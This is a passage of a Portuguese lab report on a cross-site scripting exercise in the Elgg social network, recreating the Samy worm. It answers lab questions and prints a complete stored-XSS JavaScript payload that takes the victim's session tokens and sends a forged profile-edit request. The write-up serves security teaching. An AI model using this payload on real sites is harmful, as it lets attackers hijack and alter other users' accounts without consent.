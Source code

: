 É interessante observar que logo após salvar a alteração no perfil, realizando assim um POST no servidor, a funcionalidade de adicionar à lista de amigos ocorre com o próprio Samy adicionando a si mesmo:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/Sem_ttulo.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/Sem_ttulo.png)

Quando fazemos o login em outra conta e acessamos o perfil de Samy o mesmo comportamento se repete:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/Sem_ttulo%201.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/Sem_ttulo%201.png)

### Pergunta 1 - Explique o propósito das linhas 1 e 2?

A linha 1 e 2 são as responsáveis por pegar os tokens do usuário para construir a URL, que irá gerar a requisição HTTP GET para adicionar Samy.

### Pergunta 2 - Se somente houvesse o Editor Mode em About Me você ainda conseguiria realizar o ataque?

Caso estivesse habilitado somente a opção Editor Mode o código iria ser exibido na descrição do perfil como um texto comum. No entanto, ainda seria possível realizar o ataque, mas não a partir do campo About Me, seria necessário utilizar outro campo.

### Tarefa 5 - Modificar o perfil da vítima

Para realizar esta tarefa primeiro inspecionamos como é realizada uma edição no perfil e notamos que ao realizar o POST, nos parâmetros do pacote HTTP conterá o conteúdo a ser atualizado com o nome das suas respectivas tags como é mostrado abaixo:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print9.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack/print9.png)

Quando adicionamos o código abaixo no campo *About me* no perfil Samy todos os usuário que entrarem no perfil terão seus nome alterados para "FUI ATACADO", pois este é o parâmetro que estamos enviando na tag name.

```jsx
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
	var userName=elgg.session.user.name;
	var guid="&guid="+elgg.session.user.guid;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	var name="&name=FUI ATACADO";

	//Construct the content of your url.
	var content= token + ts + name + guid;
	var sendurl= "http://www.xsslabelgg.com/action/profile/edit";
	var samyGuid=47;

	if(elgg.session.user.guid!=samyGuid) //1
	{
	//Create and send Ajax request to modify profile
	var Ajax=null;
	Ajax=new XMLHttpRequest();
	Ajax.open("POST",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
	Ajax.send(content);
}
}
</script>
```
